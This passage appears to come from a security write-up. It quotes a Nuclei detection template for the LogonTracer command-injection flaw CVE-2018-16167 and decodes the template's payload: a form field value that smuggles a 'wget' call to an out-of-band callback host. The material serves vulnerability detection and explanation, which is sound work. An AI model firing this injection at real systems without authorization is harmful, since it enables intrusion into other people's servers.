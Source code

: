 Nuclei template for the test:

```yaml
id: CVE-2018-16167

info:
  name: LogonTracer <=1.2.0 - Remote Command Injection
  author: gy741
  severity: critical
  description: LogonTracer 1.2.0 and earlier allows remote attackers to execute arbitrary OS commands via unspecified vectors.
  reference:
    - https://www.exploit-db.com/exploits/49918
    - https://nvd.nist.gov/vuln/detail/CVE-2018-16167
    - https://jvn.jp/en/vu/JVNVU98026636/index.html
    - https://github.com/JPCERTCC/LogonTracer/releases/tag/v1.2.1
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2018-16167
    cwe-id: CWE-78
  tags: rce,oast,edb,cve,cve2018,logontracer

requests:
  - raw:
      - |
        POST /upload HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        logtype=XML&timezone=1%3Bwget+http%3A%2F%2F{{interactsh-url}}%3B

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"

# Enhanced by mp on 2022/05/12
```

(https://github.com/ARPSyndicate/kenzer-templates/blob/master/nuclei/cvescan/critical/standalone/CVE-2018-16167.yaml)

We can see, the payload used by the template is 

```bash
logtype=XML&timezone=1%3Bwget+http%3A%2F%2F{{interactsh-url}}%3B
```

which is when url-decoded:

```bash
logtype=XML&timezone=1;wget http://{{interactsh-url}};
```
